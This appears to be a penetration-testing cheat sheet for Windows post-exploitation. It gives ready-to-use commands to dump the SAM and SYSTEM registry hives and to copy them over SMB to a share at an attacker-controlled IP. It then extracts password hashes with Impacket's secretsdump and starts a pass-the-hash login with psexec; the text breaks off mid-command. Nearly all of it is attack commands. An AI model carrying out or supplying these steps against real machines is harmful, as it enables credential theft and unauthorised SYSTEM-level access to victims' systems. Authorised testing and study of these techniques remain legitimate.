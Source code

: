 Get SAM and SYSTEM hashes:

	reg save hklm\system [system output file].hive
	reg save hklm\sam [sam output file].hive

Copy these files to the attacker machine using SMB or any other available method.

Transfering via smb:

1. Attacker:

		mkdir [share name]
		python3 /opt/impacket/examples/smbserver.py -smb2support -username [Windows user] -password [Windows password] public [share name]

2. Victim:

		copy [system output file] \\[Attacker IP]\public
		copy [sam output file] \\[Attacker IP]\public

And use impacket to retrieve the users' password hashes:

	python3 /opt/impacket/examples/secretsdump.py -sam [sam output file] -system [system output file]

Use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

	python3 /opt/impacket/examples/psexec.py -hashes